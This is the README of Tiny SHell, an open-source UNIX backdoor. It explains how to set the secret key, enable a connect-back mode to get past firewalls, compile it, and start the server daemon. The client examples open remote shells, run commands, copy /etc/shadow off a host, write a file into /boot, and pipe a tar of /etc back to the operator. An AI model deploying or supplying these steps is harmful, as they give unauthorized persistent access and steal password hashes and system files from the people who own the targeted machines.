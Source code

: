 # Tiny SHell - An open-source UNIX backdoor

* Before compiling Tiny SHell

    1. First of all, you should setup your secret key, which
       is located in tsh.h; the key can be of any length (use
       at least 12 characters for better security).

    2. It is advised to change SERVER_PORT, the port on which
       the server will be listening for incoming connections.

    3. You may want to start tshd in "connect-back" mode if
       it runs on on a firewalled box; simply uncomment and
       modify CONNECT_BACK_HOST in tsh.h.

* Compiling Tiny SHell

    Run "make <system>", where <system> can be any one of these:
    linux, freebsd, openbsd, netbsd, cygwin, sunos, irix, hpux, osf

* How to use the server

    It can be useful to set $HOME and the file creation mask
    before starting the server:

        % umask 077; HOME=/var/tmp ./tshd

* How to use the client

    Make sure tshd is running on the remote host. You can:

    - start a shell:

        `./tsh <hostname>`

    - execute a command:

        `./tsh <hostname> "uname -a"`

    - transfer files:

        `./tsh <hostname> get /etc/shadow .`
        `./tsh <hostname> put vmlinuz /boot`

    Note: if the server runs in connect-back mode, replace
    the remote machine hostname with "cb".

* About multiple file transfers

    At the moment, Tiny SHell does not support scp-like multiple
    and/or recursive file transfers. You can work around this bug
    by simply making a tar archive and transferring it. Example:

        ./tsh host "stty raw; tar -cf - /etc 2>/dev/null" | tar -xvf -

* About terminal modes

    On some brain-dead systems (actually, IRIX and HP-UX), Ctrl-C
    and other control keys do not work correctly. Fix it with:

        % stty intr "^C" erase "^H" eof "^D" susp "^Z" kill "^U"

* About security

    Please remember that the secret key is stored in clear inside
    both tsh and tshd executables; therefore you should make sure
    that no one except you has read access to these two files.
    However, you may choose not to store the real (valid) key in
    the client, which will then ask for a password when it starts.